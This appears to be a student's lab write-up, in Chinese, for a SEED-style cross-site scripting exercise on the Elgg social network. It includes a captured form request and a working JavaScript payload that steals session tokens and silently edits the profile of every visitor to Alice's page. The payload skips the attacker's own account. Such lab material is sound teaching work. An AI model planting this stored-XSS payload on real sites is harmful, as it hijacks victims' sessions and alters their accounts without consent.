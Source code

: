 ```
Content-Disposition: form-data; name="accesslevel[description]"

0
-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="briefdescription"

???????????!!!!!!!!!!!!!!
-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="accesslevel[briefdescription]"

2

-----------------------------29413027072745719142433280896
Content-Disposition: form-data; name="guid"

57

```

按照上面字段填充代码，主要问题在于content字符串的构造

```java
<script type="text/javascript">
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=IamAlice&accesslevel[description]=2" + guid;
        var samyGuid=56;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type",
                                  "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

以html形式输入到Alice的“about me”中，每一个看到Alice的主页的人的“about me”都会被修改

Question 3: Why do we need Line ? Remove this line, and repeat your attack. Report and explainyour observation.

防止Alice自己的“about me”被修改
